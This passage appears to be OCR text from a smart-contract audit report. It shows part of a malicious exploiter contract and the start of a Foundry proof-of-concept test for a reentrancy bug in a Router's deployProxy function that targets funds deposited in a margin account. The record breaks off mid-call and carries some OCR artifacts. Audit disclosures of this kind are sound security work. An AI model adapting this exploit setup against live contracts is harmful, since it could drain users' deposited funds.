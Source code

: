 return 18; 

\}

function proxiableUUID\(\) public pureDRAFT

returns \(bytes32\) \{

return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc; 

\}

function getMarketParams\(\)

external

view

returns \(uint32, uint96, address, uint256, address, uint256, uint32, uint96, uint96, 

,\! 

uint256, uint256\)

\{\}

\}

• Test case:

7

function test\_poc\_Router\_deployProxy\_reentrancy\(\) public \{

address attacker = makeAddr\("attacker"\); 

// create TVL

address alice = makeAddr\("alice"\); 

vm.deal\(alice, 100 ether\); 

vm.prank\(alice\); 

marginAccount.deposit\{value: 100 ether\}\(alice, address\(0\), 100 ether\); 

assertEq\(marginAccount.getBalance\(alice, address\(0\)\), 100 ether\); 

assertEq\(address\(marginAccount\).balance, 100 ether\); 

RouterRentrancyExploiter exploiterC = new RouterRentrancyExploiter\(\); 

address market = router.computeAddress\(address\(0\), address\(exploiterC\), uint96\(1e18\), 100, 

,\! 

100, 0.0001e18, type\(uint96\).max, 2\_00, 1\_00, address\(0\), false\); 

exploiterC.setVictimMarket\(market\); 

router.deployProxy\(\{

\_type: IOrderBook.OrderBookType.NATIVE\_IN\_BASE, 

\_baseAssetAddress: address\(0\), 
